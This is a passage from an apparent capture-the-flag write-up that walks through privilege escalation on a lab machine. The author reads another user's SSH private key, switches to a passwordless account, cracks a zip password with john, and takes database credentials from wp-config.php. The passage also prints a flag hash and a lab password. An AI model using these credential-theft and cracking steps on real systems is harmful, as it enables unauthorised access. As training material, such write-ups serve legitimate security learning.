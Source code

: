 ```
45edaec653ff9ee06236b7ce72b86963
```
<hr>
<h2> Question 2: Root flag </h2>
To get to root, i probably have to go through users<br>
Checking the other users home directories, i can read think's .ssh directory<br>

```
diego@ip-10-10-36-238:/home$ cat think/.ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
[...]
-----END OPENSSH PRIVATE KEY-----
```

Saving the id_rsa file to my kali and connecting to think's account via ssh:
```
ssh -i id_rsa2 think@10.10.36.238
think@ip-10-10-36-238:~$ 
```

After searching for more PE methods, it turns out i can just simply login to gege's account without password:
```
think@ip-10-10-36-238:~$ su gege
gege@ip-10-10-36-238:/home/think$ 
```

<br>
Going through Gege's home directory i found a wordpress.old.zip zip file<br>
When i Tried to unzip it, it asked for a password:

```
gege@ip-10-10-36-238:~$ unzip wordpress.old.zip
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password:
```

I downloaded the zip file to my kali i was able to crack the zip files password using john:

```
$ zip2john wordpress.old.zip > ziphash2
$ john ziphash2 --wordlist=../wordlist/rockyou.txt
```
And the password is: hero_gege@hotmail.com<br>
Inside the zip file there is a wp-config.php file, which contained the credentials for xavi:

```
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );
```

Logging in:
```
gege@ip-10-10-36-238:~$ su xavi
Password: 
xavi@ip-10-10-36-238:/home/gege$ 
```
And i have shell as xavi! <br>
Lets go higher<br>
I Tried some basic PE methods again, and it looks like xavi can run anything as root:
```
xavi@ip-10-10-36-238:/home/gege$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-36-238:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```